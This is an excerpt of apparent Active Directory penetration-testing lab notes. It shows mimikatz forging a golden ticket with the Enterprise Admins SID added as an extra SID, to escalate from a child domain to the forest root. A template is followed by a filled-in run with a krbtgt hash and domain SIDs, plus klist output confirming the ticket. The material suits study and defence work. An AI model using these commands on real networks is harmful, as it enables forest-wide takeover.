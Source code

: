 ```bash
kerberos::golden /user:hacker /domain:<Our_current_child_domain> /sid:<sid_of_child_domain> /krbtgt:<krbtgt_NTLM_hash> /sids:<sid_of_enterprise_admins_group> /ptt
```

Using our example:

```bash
.\mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

Verify:

```bash
mimikatz # exit
Bye!
PS C:\Tools\mimikatz\x64> klist

Current LogonId is 0:0xd1aca

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/6/2025 11:04:55 (local)
        End Time:   2/4/2035 11:04:55 (local)
        Renew Time: 2/4/2035 11:04:55 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

